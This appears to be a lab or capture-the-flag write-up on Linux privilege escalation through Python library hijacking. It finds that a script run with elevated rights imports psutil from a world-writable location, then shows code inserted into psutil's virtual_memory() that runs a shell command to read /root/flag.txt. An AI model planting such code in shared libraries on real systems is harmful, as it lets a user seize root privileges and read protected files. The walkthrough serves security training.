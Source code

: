 ```shell
crytix@ubuntu:~$ ls -la mem_status.py 
-rwSrwxr-x 1 root root 192 May 19  2023 mem_status.py
```
![[Pasted image 20250712203305.png]]
`r-x`
By analyzing the permissions over the `mem_status.py` Python file, we understand that we can execute this script and we also have permission to view the script, and read its contents.

```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```
We can also see in the second line that this script imports the module `psutil` and uses the function `virtual_memory()`.

So we can look for this function in the folder of `psutil` and check if this module has write permissions for us.

```shell
crytix@lpenix:~$ grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():


htb-student@lpenix:~$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

```shell
$ vim /usr/local/lib/python3.8/dist-packages/psutil/__init.py
```

in vim
press `/` to search and write the method defintion (`virtual_memory()`)
`/def virtual_memory`
![[Pasted image 20250712202409.png]]
Now lets insert our malicious code
```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('cat /root/flag.txt')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.
```
